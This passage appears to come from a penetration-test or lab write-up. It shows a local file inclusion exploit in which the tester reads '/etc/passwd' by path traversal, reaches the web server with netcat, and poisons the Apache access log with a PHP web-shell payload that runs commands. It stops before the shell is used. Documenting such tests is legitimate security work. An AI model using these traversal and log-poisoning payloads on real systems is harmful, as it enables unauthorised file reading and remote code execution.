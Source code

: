 
## Proof of Concept {#section-2}
For the Proof of Concept (POC), the tester observed that the URL parameter `page=file1.php` was indicative of a LFI vulnerability. To confirm this, the tester removed the `file1.php` and appended `../../../../../etc/passwd`. This action revealed the content of the `/etc/passwd` file in the web, demonstrating that the `/etc/passwd` file was indeed included and the web application was vulnerable to path traversal attacks.    
![](/assets/lfi/show.png)  
In addition, to confirm that there was an Apache log file to poison, the tester checked 
```bash
/var/log/apache2/access.log
```
and confirmed its existence. With the web technology identified as PHP, the tester proceeded to poison the Apache2 log file.

The tester first initiated a net cat session to connect to the web host.
```bash
nc -nv 172.17.0.1 80
```
Next, the tester sent a HTTP GET request to the web server to inject PHP executable code to the Apache log file.
```php
GET /<?php system($_GET['cmd']);  ?>
```
![](/assets/lfi/result2.png)  
